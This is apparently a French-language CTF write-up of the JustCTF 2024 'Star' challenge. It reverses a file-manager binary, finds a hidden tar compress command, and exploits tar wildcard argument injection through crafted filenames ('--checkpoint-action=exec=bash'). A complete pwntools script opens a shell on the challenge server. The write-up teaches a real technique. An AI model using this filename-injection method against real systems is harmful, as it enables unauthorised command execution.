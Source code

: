 ```yaml
---
layout: post
title: JustCTF 2024 - Star
subtitle: Linux Command injection
tags: [reverse, commandinjection]
comments: true
---
```


### JustCTF 2024 - Star

!["Main"](/assets/img/posts/justctf2024/chall2.png "Description")


On nous fournit une archive contenant un binaire. Ce binaire est lancé dans une infra remote.

# Analyse du serveur

On a un serveur qui délivre un menu basique pour créer des fichiers, les éditer, afficher, les supprimer ou les rename.


!["Main"](/assets/img/posts/justctf2024/menu.png "Menu")

Dans le main, on a une référence directe à la vtable C++ utilisé pour les handlers des commandes : 

!["Main"](/assets/img/posts/justctf2024/vtable.png "Vtable lookup")

En regardant de plus près les handlers des commandes, on retrouve une commande caché : 

!["Main"](/assets/img/posts/justctf2024/vtable2.png "Vtable handlers")

# Compress command

La commande compress (7) est une commande caché qui prend en entrée un nom d'archive tar, et va compresser tout le dossier courant dans ce fichier tar.

On a: 

!["Main"](/assets/img/posts/justctf2024/compress.png "compress")

Ici on peut entrer 'archive.tar' dans input_name(), le handler va ensuite vérifier que 'archive.tar' est valide (avec `std::filesystem::status`). Si l'on met un fname invalide (/etc/passwd, ; ou ", ...), on a une exception levé.

`create_cmd_appendix` permet de créer `tar -xf` etr create_full_cmd permet d'avoir la commande complête : 

`tar -cf '[input_user]' *`

# Command injection

On ne peut pas vraiment exploiter ce system directement avec le nom de l'archive car le check_fstat (std::filesystem::status) nous empêche d'injecter correctement une entrée.

Cependant, on peut créer des fichiers dans le dossier courant (avec la commande 1) pour injecter des arguments custom de tar.

Par exemple :

Create -I
Create id
Create zzzz #besoin d'un fichier, sinon tar ne crée pas une archive vide

on aura alors : tar -cf archive.tar * => tar -cf archive.tar -I id XXXRANDOM

On peut alors print l'archive, qui contiendra le résultat de la commande id (argument -I permet d'exec une commande)

!["Main"](/assets/img/posts/justctf2024/cmdexec.png "cmdexec")

De même que pour compress_çmd, on ne peut pas créer des fichiers invalides (/bin/bash par exemple) => à noter que -I est un nom de fichier valide.

Cependant on peut utiliser le cmd rename pour créer des arguments à notre guise

Avec l'aide de GTFObins on peut utiliser une command injection pour obtenir un shell : 

https://gtfobins.github.io/gtfobins/tar/

!["Main"](/assets/img/posts/justctf2024/gtfo.png "gtfo")

On a alors : 
```python
from pwn import *
r = remote("star.nc.jctf.pro", 1337)

r.sendline(b'1')
r.sendline(b'a')
r.sendline(b'1')
r.sendline(b'b')
r.sendline(b'1')
r.sendline(b'c')

r.sendline(b'2')
r.sendline(b'a')
r.sendline(b'--checkpoint=1')
r.sendline(b'2')
r.sendline(b'b')
r.sendline(b'--checkpoint-action=exec=bash')

r.sendline(b'7')
r.sendline(b'random')


r.interactive()
```

On peut alors retrouver le flag /home/flag.txt : justCTF{th3_st4r_1s_sh1n1ng}

